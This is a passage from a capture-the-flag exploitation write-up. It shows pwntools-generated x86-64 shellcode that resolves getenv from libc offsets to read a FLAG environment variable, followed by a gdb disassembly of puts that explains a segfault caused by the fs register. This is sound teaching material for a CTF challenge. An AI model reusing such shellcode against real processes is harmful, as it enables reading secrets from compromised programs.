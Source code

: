 Now that the stack is back, the `push` operation won't segfault anymore and we can call `getenv("FLAG\x00")` which will return an address pointing to the flag string.

```python
    libc = ELF("libs/libc.so.6")
    getenv_offs = libc.sym["getenv"]
    flag_env = u64(b"FLAG\x00".ljust(8, b"\x00"))
    shellcode = asm(f"""
            [...]

            /* getenv("FLAG\x00") */
            mov ecx, {hex(neg32(getenv_offs))};
            neg ecx;                                /* rcx = getenv offs */
            add rcx, r12;                           /* rcx = getenv */

            mov rdi, {hex(neg64(flag_env))};
            neg rdi;                                /* rdi = FLAG\x00 */
            push rdi;
            mov rdi, rsp;                           /* rdi = addr of FLAG */

            mov r15, rcx;                           /* r15 = getenv */
            call r15;                               /* call getenv */

        """)
```

Now that `rax` contains the address of the flag, we just need to print it to stdout. We could immediately think of calling something like `puts`, `printf` or `write`, but if you try to use them, you will end up segfaulting again. This time the `fs` register is the guilty one. For example, if we look at the `puts` disassembly using gdb:

```
    (gdb) disass puts
    Dump of assembler code for function __GI__IO_puts:
    Address range 0x80e50 to 0x80fe9:
    0x0000000000080e50 <+0>:     endbr64
    0x0000000000080e54 <+4>:     push   r14
    0x0000000000080e56 <+6>:     push   r13
    0x0000000000080e58 <+8>:     push   r12
    0x0000000000080e5a <+10>:    mov    r12,rdi
    0x0000000000080e5d <+13>:    push   rbp
    0x0000000000080e5e <+14>:    push   rbx
    0x0000000000080e5f <+15>:    sub    rsp,0x10
    0x0000000000080e63 <+19>:    call   0x28490 <*ABS*+0xa86a0@plt>
    0x0000000000080e68 <+24>:    mov    r13,QWORD PTR [rip+0x198fc9]        # 0x219e38
    0x0000000000080e6f <+31>:    mov    rbx,rax
    0x0000000000080e72 <+34>:    mov    rbp,QWORD PTR [r13+0x0]
    0x0000000000080e76 <+38>:    mov    eax,DWORD PTR [rbp+0x0]
    0x0000000000080e79 <+41>:    and    eax,0x8000
    0x0000000000080e7e <+46>:    jne    0x80ed8 <__GI__IO_puts+136>
    0x0000000000080e80 <+48>:    mov    r14,QWORD PTR fs:0x10               <--------------------- here
```
